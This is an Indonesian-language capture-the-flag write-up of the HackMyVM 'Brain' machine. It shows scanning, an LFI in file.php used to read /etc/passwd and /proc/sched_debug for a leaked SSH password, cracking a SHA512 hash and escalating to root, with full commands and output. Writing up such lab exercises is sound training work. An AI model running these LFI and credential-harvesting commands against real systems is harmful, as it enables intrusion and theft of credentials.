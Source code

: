 ```yaml
---
layout: Post
title: HackMyVM - Brain Writeup
date: 2021-10-14 08:55 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/brain.zip">Brain</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/d4t4s3c">d4t4s3c</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10477]
└─[$] nmap -A 192.168.0.5                                                                                                   
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-14 08:43 WIB
Nmap scan report for 192.168.0.5
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 32:95:f9:20:44:d7:a1:d1:80:a8:d6:95:91:d5:1e:da (RSA)
|   256 07:e7:24:38:1d:64:f6:88:9a:71:23:79:b8:d8:e6:57 (ECDSA)
|_  256 58:a6:da:1e:0f:89:42:2b:ba:de:00:fc:71:78:3d:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

## Scan Directory

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10491]
└─[$] gobuster dir -u http://192.168.0.5/  -x php,html,js,txt -w /opt/wordlist/medium.txt

===============================================================
2021/10/14 08:42:50 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/brainstorm (Status: 301)
/server-status (Status: 403)
===============================================================
2021/10/14 08:50:07 Finished
===============================================================
```

Setelah di scan disini ku scan lagi diretory brainstorm karena masih menyimpan secuil informasi yang berguna buat saya :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10478]
└─[$] gobuster dir -u http://192.168.0.5/brainstorm  -x php,html,js,txt -w /opt/wordlist/medium.txt 

===============================================================
2021/10/14 08:44:48 Starting gobuster
===============================================================
/index.html (Status: 200)
/file.php (Status: 200)
===============================================================
2021/10/14 08:51:57 Finished
===============================================================
```

## WFUZZ
Dan benar saya terdapat `file.php` yang dimana berpotensi terdapat vuln `LFI`. Oleh karena itu ku coba wfuzz untuk mendapatkan parameter tersebut :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10493]
└─[$] wfuzz -w /opt/wordlist/medium.txt --hh 0  'http://192.168.0.5/brainstorm/file.php?FUZZ=/etc/passwd'  

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                              
=====================================================================

000000759:   200        26 L     38 W       1401 Ch     "file"                                                               
```

Yap, ternyata terdapat paramater file, next ku coba lfi ke `/etc/passwd` ternyata terdapat user salomon :

```console
salomon:x:1000:1000:salomon,,,:/home/salomon:/bin/bash
```

Next selanjutnya ku `wfuzz` lagi untuk mencari tahu di parameter tersebut apa saja yang bisa di lihat :

```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10495]
└─[$] wget wget https://raw.githubusercontent.com/tutorial0/payloads/master/lfi.txt                                      
```
```console
┌─[root@lehzo] - [~/Kiyo/HackMyVM/Brain] - [10495]
└─[$] wfuzz -w lfi.txt   --hh 0  'http://192.168.0.5/brainstorm/file.php?file=FUZZ' 

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                              
=====================================================================

000000001:   200        158 L    1214 W     12494 Ch    "/proc/sched_debug"                                                  
```

Karena itu ku cek `/proc/sched_debug`. Oya sebelumnya file yang bisa dilihat oleh parameter tersbut banyak tapi ku ambil yang penting aja :

```console
Ssalomon:My*****   410      3010.149453        16   120         0.000000         2.419489         0.000000 0 0 /
```

## SSH
Dan ternyata terdapat password SSH , akhirnya lu login dan terdapat flag `user.txt` :

```console
salomon@Brain:~$ cat user.txt 
onS6lJ*******wZu3I8HKY8sQ
```

Next setelah itu ku coba `ss -tlpn`, ternyata ada port aneh 65000. Pas ku run ternyata menampilkan hasil dari index.htmlnya :

```console
salomon@Brain:~$ ss -tlpn
State            Recv-Q            Send-Q                       Local Address:Port                        Peer Address:Port           
LISTEN           0                 128                                0.0.0.0:22                               0.0.0.0:*              
LISTEN           0                 5                                127.0.0.1:65000                            0.0.0.0:*              
LISTEN           0                 128                                      *:80                                     *:*              
LISTEN           0                 128                                   [::]:22                                  [::]:*             
```
```console
salomon@Brain:~$ telnet 127.0.0.1 65000
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
tes
<head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>
<p>Error code 400.
<p>Message: Bad request syntax ('tes').
<p>Error code explanation: 400 = Bad request syntax or unsupported method.
</body>
Connection closed by foreign host.
```

Oleh karena itu ku coba wget dan ternyata terdapat sebuah hash. Disini ku gatau hashnya apa akhirnya ku coba crack ke `crackstation` :
```console
Hash : 065BB0B9A0C654E5B3B6292C4698BD67CE6A331209D941989EC4D728FBE3290E47D2058839215BBE6144F51E7FCE8A8C6A5626E0CB7521641D742251F5A*****
Type : SHA512   
Password : ge****
```

And boom setelah ku su akhirnya mendapatan flag root.txt nya :

```console
salomon@Brain:~$ su
Contraseña: 
root@Brain:/home/salomon# cd
root@Brain:~# ls
index.html  root.txt  run_server.sh  server.py
root@Brain:~# cat root.txt 
gmC9GR0EM*****8zCx3baoUWM
root@Brain:~# 
```
